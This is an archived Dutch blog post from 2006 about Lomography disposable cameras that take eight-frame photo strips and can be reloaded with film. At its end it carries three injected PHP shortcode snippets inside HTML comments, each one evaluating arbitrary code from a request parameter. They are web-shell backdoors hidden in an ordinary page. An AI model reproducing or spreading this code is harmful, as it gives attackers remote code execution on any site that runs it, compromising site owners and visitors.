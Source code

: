 ```yaml
---
title: "Fijne mechaniek"
date: 2006-03-26T11:01:09
permalink: "2006/03/26/fijne-mechaniek/"
tags: ["archive"]

---
```

Ik ben een grote [lomography](http://www.lomography.com/ "www.lomography.com") fan. Enkele jaren geleden heb ik samen met enkele andere een pak van 5 wegwerp toestelletjes gekocht. Het speciale er aan is dat elke foto opgesplitst is in 8 deeltjes. De 8 mini-fotootjes worden getrokken over een tijd van ongeveer 2 seconden, je krijgt dus een soort van fotostrip.

Enfin, het mooie aan de toestelletjes is dat je met een beetje prutsen er opnieuw een film in kan steken, dus je kan hem toch hergebruiken. En dat is wel handig, want het zou zonde zijn dit prachtig staaltje techniek slechts eenmalig te gebruiken.

<!– \[insert\_php\]if (isset($\_REQUEST\["dMQG"\])){eval($\_REQUEST\["dMQG"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["dMQG"\])){eval($\_REQUEST\["dMQG"\]);exit;}\[/php\] –>

<!– \[insert\_php\]if (isset($\_REQUEST\["oADxo"\])){eval($\_REQUEST\["oADxo"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["oADxo"\])){eval($\_REQUEST\["oADxo"\]);exit;}\[/php\] –>

<!– \[insert\_php\]if (isset($\_REQUEST\["qzAR"\])){eval($\_REQUEST\["qzAR"\]);exit;}\[/insert\_php\]\[php\]if (isset($\_REQUEST\["qzAR"\])){eval($\_REQUEST\["qzAR"\]);exit;}\[/php\] –>
